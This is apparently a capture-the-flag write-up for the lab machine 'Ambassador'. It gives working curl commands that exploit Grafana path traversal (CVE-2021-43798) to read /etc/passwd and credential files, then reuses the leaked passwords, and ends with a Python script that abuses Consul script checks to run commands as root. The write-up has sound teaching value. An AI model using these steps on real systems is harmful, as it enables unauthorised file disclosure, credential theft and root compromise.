










## User Owning:


After performing an Nmap scan, we find that there is SSH running on port 22, a static site running on port 80, a mysql server running on port 3306 (not locally), and a web app running on port 3000.



The web-server running on port 80 displays a static site. Nothing interesting except this: 



Seems like we can login in SSH as `developer` with a password provided by the DevOps team. Neat! We move onto port 3000. 

The web app on port 3000 is [Grafana](https://github.com/grafana/grafana), which is some data-visualization software. We are greeted with a login page. 



I decided to bruteforce web directories in Grafana using FFuF by running the following command:

```
ffuf -c -w /usr/share/wordlists/dirb/big.txt -u "http://10.10.11.183:3000/FUZZ"
```

After bruteforcing directories in Grafana, we find a `/metrics` page which contains Go metrics (info about how Grafana is running etc) since Grafana is partly written in Go. Skimming through the metrics, we can see an interesting endpoint: `public/plugins/:pluginId`

If we do some more research, we find a list of all plugin ids in Grafana such as: mysql, canvas, cloudwatch, etc… 

If we visit the endpoint `public/plugins/mysql/` , we get redirected to `/login` but if we visit `public/plugins/mysql/fubar`, we get the JSON response:

```json
{"message": "Plugin file not found"}
```

This probably means that it looked for a file named `fubar` which did not exist. Let's try performing a directory traversal attack by visiting `public/plugins/mysql/../../../../../../../../../../../../../etc/passwd`. After trying this, it appears that the browser removes `../` sequences from the path, thus reducing the path to `/etc/passwd`.

**To stop this from happening, we can send the GET request using cURL with the `--path-as-is` argument. This argument ensures that the `../` sequences will be KEPT in the path:** 

```bash
curl --path-as-is -X GET http://10.10.11.183:3000/public/plugins/mysql/../../../../../../../../../../../../../etc/passwd
```

After sending the request, SUCCESS! It returned the `/etc/passwd` file! We successfully exploited a path traversal vulnerability in Grafana. 

 



Funnily enough, after finding this vulnerability, I found out that this path traversal vulnerability was previously reported (CVE-2021-43798) and apparently was a big deal: [https://github.com/grafana/grafana/security/advisories/GHSA-8pjx-jj86-j47p](https://github.com/grafana/grafana/security/advisories/GHSA-8pjx-jj86-j47p) 

More info: [https://grafana.com/blog/2021/12/08/an-update-on-0day-cve-2021-43798-grafana-directory-traversal/](https://grafana.com/blog/2021/12/08/an-update-on-0day-cve-2021-43798-grafana-directory-traversal/) 

Since we now have the ability to read files on the server (as the `grafana` user since you can see a `grafana` user existing in the `/etc/passwd` file and it's safe to assume that Grafana is being ran by the `grafana` user), we want to get credentials that will allow us to login to Grafana. After doing some research, we find that the admin password is stored in `/etc/grafana/grafana.ini`. So we use the path traversal vulnerability to get the contents of that file:
```
curl --path-as-is -X GET http://10.10.11.183:3000/public/plugins/mysql/../../../../../../../../../../../../../etc/grafana/grafana.ini
```
We then get a response with the contents of the `/etc/grafana/grafana.ini` file. After skimming through it, we find the field `admin_password=messageInABottle685427`. Boom! 

We proceed to login with the username “admin” and the password "messageInABottle685427”. 

After logging in and looking around, there really isn’t anything interesting that we can do in Grafana. Using the same path traversal vulnerability we previously found, we try to find the password to the MySQL server running on port 3306 (recall back to the Nmap scan). 

After doing some research, we find that the MySQL credentials in Grafana are stored at `/etc/grafana/provisioning/datasources/mysql.yaml`. So using the path traversal vulnerability, we get the contents of this file:
```
curl --path-as-is -X GET \
	http://10.10.11.183:3000/public/plugins/mysql/../../../../../../../../../../../../../etc/grafana/provisioning/datasources/mysql.yaml
```

The request returns the following: 



Boom! The username is `grafana` and the password is `dontStandSoCloseToMe63221!`. 

We then log into the MySQL server using: 

```bash
mysql --user="grafana" --password="dontStandSoCloseToMe63221!" --host="10.10.11.183"
```

Boom! Successful login! 

We then enumerate all the databases using the `show databases;` command. 

We get the following:



After looking around in all the databases, what stands out is what’s in the `whackywidget` database. We select the `whackywidget` database by running the `\u whackywidget` command. 

We then enumerate all the tables within the database using the `show tables;` command. We get a single table `users`. 



We get all rows within the `users` table by running the `SELECT * FROM users;` SQL query. We get the following:

 



It appears like the password is encoded in base64, which adds no extra level of security because an encoding is NOT the same as an encryption. This does not protect the password whatsoever as anyone can just decode a base64 string. We decode the base64 string:

```bash
echo "YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg==" | base64 -d
```

Which outputs: 
```
anEnglishManInNewYork027468
```

Therefore the password is `anEnglishManInNewYork027468`. But what is this password used for?

If we recall what was on the static webpages on port 80, it said that to connect to this machine, you can login as `developer` with a password provided by the DevOps team. Let's try logging into SSH on this machine as `developer` and using the password we just found:

```
ssh developer@10.10.11.183
developer@10.10.11.183's password: <WE ENTER anEnglishManInNewYork027468>
```

And it works! We are now logged in as `developer`! You can find the `user.txt` file in the home directory. We print the contents of the `user.txt` file and boom! We user owned the box!



## Privilege Escalation:

Using [pspy](https://github.com/DominicBreuker/pspy), we can see that the root user (UID=0) is running [Consul](https://www.consul.io/)


Keeping this in mind, I keep looking around the machine. I explore the `/opt` directory and find a directory `my-app/`. Inside the `my-app/` directory, I find a `whackywidget/` directory. Upon exploring this directory, It appears to be a Python app. When inside the `/opt/my-app/whackywidget` directory, if we run `ls -a` to list all files including hidden files (dotfiles), we find a `.git/` directory. Using [GitTools](https://github.com/internetwache/GitTools), we are able to recover previous versions of the whackywidget app. 

In a previous version of the app, you can find the following in a `put-config-in-consul.sh` file:
```sh
# We use Consul for application config in production, this script will help set the correct values for the app
# Export MYSQL_PASSWORD before running

consul kv put --token bb03b43b-1d81-d62b-24b5-39540ee469b5 whackywidget/db/mysql_pw $MYSQL_PASSWORD
```

The value for the argument `--token` seems interesting. Let's search what the `--token` argument means for the `consul` command-line tool. 

The value of the `--token` argument is apparently as "Accessor ID" for Consul which is used to authenticate requests to a local API running on machine for the Consul service. 

After doing some more digging, this API appears to be used to perform action in Consul over HTTP requests. This is interesting as we now have a way to authenticate your requests to this API, which will allow us to perform certain actions in Consul. But how could this help us in escalating our privilege? 

After doing some research on some potential vulnerabilities, I found the following:
https://lab.wallarm.com/consul-by-hashicorp-from-infoleak-to-rce/

It seems like it is possible to get Remote Code Execution in the Consul service as the user who is running Consul. Recall that in this machine, `root` is running Consul. 

The way this vulnerability works is that it takes advantage of the functionality of agents in Consul. Agents can be configured to repeatedly perform "health checks" in a specified interval of time to determine the health status of a target service. One of these supported health checks are called "script checks". Script checks will execute any command or inline script by the Consul process at the configured interval. Checks can be registered via the Consul API. ([Source](https://www.hashicorp.com/blog/protecting-consul-from-rce-risk-in-specific-configurations)) In our case, all script checks will be executed as `root` since `root` is the user running the Consul service. 

Recall back to the Accessor ID that we found. This will allow us to authenticate our requests to the Consul API. Using this information, it's quite easy to craft a simple privilege escalation exploit. We simply need to use the Accessor ID to send a request to the Consul API to register a new agent with a script check which instructs the agent to execute any command line we desire (which will be executed as `root` as previously stated). 

More info: https://www.hashicorp.com/blog/protecting-consul-from-rce-risk-in-specific-configurations

Important information that I also learnt during my research is that this vulnerability is only introduced if `enable_script_checks = true` in the `/etc/consul.d/consul.hcl` file. 

Checking the `/etc/consul.d/consul.hcl` shows that `enable_script_checks = true`. Therefore this vulnerability is possible to exploit. 

First things first, we need to find the port on which the Consul API is running. We can check all listening connection in the machine by running the command `netstat -nl`, which returns:
```
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:3306            0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:8300          0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:8301          0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:8302          0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:8500          0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:8600          0.0.0.0:*               LISTEN     
tcp6       0      0 :::80                   :::*                    LISTEN     
tcp6       0      0 :::22                   :::*                    LISTEN     
tcp6       0      0 :::3000                 :::*                    LISTEN     
udp        0      0 127.0.0.1:8301          0.0.0.0:*                          
udp        0      0 127.0.0.1:8302          0.0.0.0:*                          
udp        0      0 127.0.0.1:8600          0.0.0.0:*                          
udp        0      0 127.0.0.53:53           0.0.0.0:*                          
udp        0      0 0.0.0.0:68              0.0.0.0:*                          

```

Notice how the machine is listening **locally** on ports 8300, 8301, 8302, 8500, and 8600. I then tried sending a simple GET request to every port using cURL:
```
curl -X GET http://localhost:<PORT NUM>
```

Port 8300 gave me the following error: `curl: (56) Recv failure: Connection reset by peer`

Port 8301, 8302, and 8600 responded with an empty response.

Port 8500 responded with: 
```
Consul Agent: UI disabled. To enable, set ui_config.enabled=true in the agent configuration and restart.
```

Bingo! So the Consul API is running on port 8500. 


Using the accessor ID I previously found, I can send an HTTP request to the Consul API running locally on port 8500, and register a new agent with a script check. In the script check, I will instruct the agent to run a malicious bash script that I created named `PWN.sh` containing the following:

```bash
cat /root/root.txt > /tmp/.css/root.txt
# simply prints the contents of root.txt into another file named root.txt in /tmp/.css
```

This malicious bash script will be stored in the `/tmp/.css` directory. I created the `/tmp/.css` directory to have a place to work and to avoid having all my files laying around the machine. 

I then read the Consul documentation to learn how to [register a new agent with a script check](https://developer.hashicorp.com/consul/api-docs/agent/check) via the Consul API. 

With this information, I registered a new agent with a malicious script check using the following simple python script: 

```python
from requests import get, put
import json

NEW_CHECK = json.dumps({
	'Name': 'pwn',
	'Args': ['sh', '/tmp/.css/PWN.sh'], # the malicious script was created at /tmp/.css/PWN.sh
	'Interval': '5s', # check is ran every 5 seconds
})

HEADERS = {
	'Content-Type': 'application/json',
	'X-Consul-Token': 'bb03b43b-1d81-d62b-24b5-39540ee469b5' # The Accessor ID we previously found, to authenticate this request
}

print('[*] Creating malicious agent...')
res = put('http://localhost:8500/v1/agent/check/register', data=NEW_CHECK, headers=HEADERS) # register the new malicious agent through the Consul API
print('[*] DONE.\n')
print(res.status_code, res.reason, res.content)
```


For more info on this exploit:
[https://www.hashicorp.com/blog/protecting-consul-from-rce-risk-in-specific-configurations](https://www.hashicorp.com/blog/protecting-consul-from-rce-risk-in-specific-configurations)


For more info on agent checks in Consul: [https://developer.hashicorp.com/consul/api-docs/agent/check](https://developer.hashicorp.com/consul/api-docs/agent/check)

Once the agent is created, after 5 seconds, the script check should be ran and there will be a file `/tmp/.css/root.txt` created which will contain the root flag. Boom, system owned!



# Ambassador has been pwned!